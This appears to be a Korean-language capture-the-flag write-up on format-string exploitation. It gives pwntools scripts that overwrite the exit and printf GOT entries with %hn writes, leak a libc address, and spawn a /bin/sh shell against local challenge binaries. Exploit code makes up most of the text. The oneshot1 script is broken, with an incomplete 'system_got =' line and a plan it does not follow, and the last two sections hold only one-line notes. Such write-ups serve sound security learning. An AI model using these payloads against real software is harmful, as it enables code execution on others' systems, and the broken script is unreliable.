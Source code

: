 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. printf 함수의 got를 system 함수의 주소로 덮어쓰고 buf에 입력을 받을 때 "/bin/sh"를 입력하면 system("/bin/sh")를 실행할 수 있다. 이때 2번 이상 입력을 받아야 하므로 exit의 got를 main으로 덮어야 단계를 실행할 수 있을 것으로 보인다.  
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot1")
p = process(e.path)
libc = e.libc


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["main"] >> 16}c'.encode() #main_high
payload += b"%10$hn"
payload += f"%{(e.symbols['main'] & 0xffff) - (e.symbols['main'] >> 16)}c".encode() #main_low - main_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

p.send(payload)

system_got = 

p.recvuntil(b"\n\n")
payload = f'%{e.symbols["system"] >> 16}c'.encode() #system_high
payload += b"%10$hn"
payload += f"%{(e.symbols['system'] & 0xffff) - (e.symbols['system'] >> 16)}c".encode() #system_low - system_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["printf"] + 2)
payload += p64(e.got["printf"])
p.send(payload)


p.send(b'/bin/sh\x00')


p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다.
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

e = ELF('./oneshot2')
p = process(e.path)
libc = e.libc


main = e.symbols['main']
printf_got = e.got['printf']


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff


p.recvuntil(b"\n\n")
payload = f'%{main_high}c'.encode()
payload += b'%10$hn'
payload += f'%{main_low - main_high}c'.encode()
payload += b'%11$hn'
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

#pause()
p.send(payload)


p.recvuntil(b"\n\n")
payload = ''
payload += 'leak:%15$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
#log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main']
system = libc_base + libc.symbols['system']

#log.info('\tlibc base '+ hex(libc_base))

system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


#log.info('[3] input : printf@got -> system')


p.recvuntil(b"\n\n")
payload = f'%{low}c'.encode()
payload += b'%11$hn'
payload += f'%{middle}c'.encode()
payload += b'%12$hn'
payload += f'%{high}c'.encode()
payload += b'%13$hn'
payload += b'\x00'*(8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)


#pause()
p.send(payload)

#pause()
p.send(b'/bin/sh\x00')

p.interactive()


```




## oneshot3

exit 함수가 존재하지 않으므로 다른 방식의 fsb를 해야 한다.





## oneshot4

전역변수 buf에 입력을 받는 상황이기 때문에 double-staged fsb를 해야 한다.
